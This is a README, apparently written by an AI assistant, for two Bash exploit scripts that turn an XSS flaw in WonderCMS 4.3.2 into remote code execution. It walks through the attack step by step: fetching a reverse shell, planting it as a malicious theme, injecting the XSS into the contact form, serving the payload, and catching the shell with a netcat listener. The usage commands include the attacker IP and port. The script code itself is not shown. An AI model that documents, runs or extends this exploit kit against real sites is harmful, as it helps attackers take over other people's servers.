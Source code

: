 Here is a well-detailed `README.md` for the two scripts you provided:

---

# WonderCMS 4.3.2 XSS to RCE Exploits

## Overview

These scripts exploit an XSS (Cross-Site Scripting) vulnerability in **WonderCMS 4.3.2** to achieve **Remote Code Execution (RCE)**. The XSS payload, when triggered by the admin, automatically installs a reverse shell on the target server by leveraging a crafted malicious theme module. The reverse shell is obtained from **revshells.com** and executed, granting the attacker remote access to the server.

---

## Table of Contents

- [Prerequisites](#prerequisites)
- [Script 1: Automatic Exploit](#script-1-automatic-exploit)
  - [Features](#features)
  - [Usage](#usage)
- [Script 2: Manual Exploit](#script-2-manual-exploit)
  - [Features](#features-1)
  - [Usage](#usage-1)
- [Notes](#notes)
- [License](#license)

---

## Prerequisites

To successfully run either script, the following tools and conditions are required:

1. **Bash Shell**: Both scripts are written for Linux environments using the Bash shell.
2. **netcat (nc)**: Used to listen for the reverse shell connection.
3. **Python3**: A simple Python HTTP server is used to host the XSS payload.
4. **WonderCMS 4.3.2**: The target must be running a vulnerable version of WonderCMS.
5. **Administrator Interaction**: The payload requires an admin to trigger the XSS, which results in the reverse shell execution.
6. **revshells.com**: The reverse shell payload is downloaded dynamically from revshells.com.

---

## Script 1: Automatic Exploit

### Features

This version of the exploit automatically checks for an active `nc` listener, downloads the reverse shell, starts the HTTP server, sends the payload, and waits for the admin to trigger the reverse shell.

- **Automatic Reverse Shell Setup**: Downloads a pre-generated reverse shell from revshells.com.
- **XSS Payload Injection**: Injects an XSS payload in the target's contact form.
- **HTTP Server Management**: Automatically starts a Python HTTP server to host the reverse shell payload.
- **nc Listener Check**: Ensures the listener is running before proceeding.
- **Payload Auto-send**: Sends the payload automatically without user interaction.

### Usage

1. Ensure the `nc` listener is running on the specified port:
   ```bash
   nc -nvlp <PORT>
   ```
2. Run the script with the following command:
   ```bash
   ./script1.sh <loginURL> <attacker_IP> <attacker_PORT>
   ```
   Example:
   ```bash
   ./script1.sh http://localhost/wondercms/loginURL 192.168.29.165 5252
   ```

### Workflow

1. **Download Reverse Shell**: The script downloads the reverse shell from `revshells.com`.
2. **Modify the Reverse Shell**: The reverse shell script is updated with the attacker's IP and port.
3. **Create ZIP Payload**: A ZIP file containing the reverse shell is created.
4. **Craft XSS Payload**: An XSS payload that installs the reverse shell is generated and injected into the vulnerable contact form.
5. **Auto-Start HTTP Server**: The script starts a Python HTTP server to serve the malicious payload.
6. **Auto-Send Payload**: The XSS payload is sent to the admin automatically.

---

## Script 2: Manual Exploit

### Features

This version requires the user to manually manage the `nc` listener and the XSS payload triggering. It is more suited for scenarios where automatic processes are not desirable.

- **Manual Reverse Shell Setup**: The user is responsible for ensuring the listener is running.
- **Manual XSS Triggering**: The script provides the malicious link to be sent to the admin, but the payload must be triggered manually.
- **HTTP Server Management**: Starts a Python HTTP server to host the XSS payload.

### Usage

1. Ensure the `nc` listener is running on the specified port:
   ```bash
   nc -nvlp <PORT>
   ```
2. Run the script with the following command:
   ```bash
   ./script2.sh <loginURL> <attacker_IP> <attacker_PORT>
   ```
   Example:
   ```bash
   ./script2.sh http://localhost/wondercms/loginURL 192.168.29.165 5252
   ```

### Workflow

1. **Download Reverse Shell**: Downloads a reverse shell from `revshells.com`.
2. **Modify the Reverse Shell**: Updates the reverse shell with the attacker's IP and port.
3. **Create ZIP Payload**: Creates a ZIP file containing the reverse shell.
4. **Craft XSS Payload**: Generates an XSS payload that installs the reverse shell.
5. **Display Malicious Link**: Displays the link that needs to be sent to the admin for triggering.
6. **Start HTTP Server**: Starts a Python HTTP server to host the payload.

---

## Notes

- **Admin Interaction**: Both exploits rely on the WonderCMS admin triggering the XSS payload by visiting the vulnerable page. Once triggered, the reverse shell is established with the attacker's machine.
- **Firewall/IDS/IPS**: Be cautious when running these exploits on environments protected by firewalls or Intrusion Detection Systems (IDS) that might block or alert on suspicious activity.
- **Responsible Disclosure**: If you find that a target is vulnerable, always follow ethical guidelines and report the vulnerability to the appropriate parties.

